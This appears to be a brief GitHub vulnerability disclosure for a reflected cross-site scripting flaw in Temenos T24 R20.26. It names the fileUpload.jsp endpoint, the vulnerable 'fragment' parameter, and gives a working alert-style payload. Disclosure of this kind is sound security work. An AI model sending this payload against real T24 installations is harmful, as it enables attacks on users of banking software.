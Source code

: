 # Reflected-XSS-T24
In Temenos T24 R20.26, I found Reflected-XSS fileUpload.jsp
Reproduce bug:
Send request to https://{url}/BrowserWeb/jsps/fileUpload.jsp with payload xss in 'fragment' parameter
Payload : ```"><img src=1 onerror=alert(1337)>```
![Alt text](Request.png)
Payload trigger in browser:
![Alt text](Trigger.png)
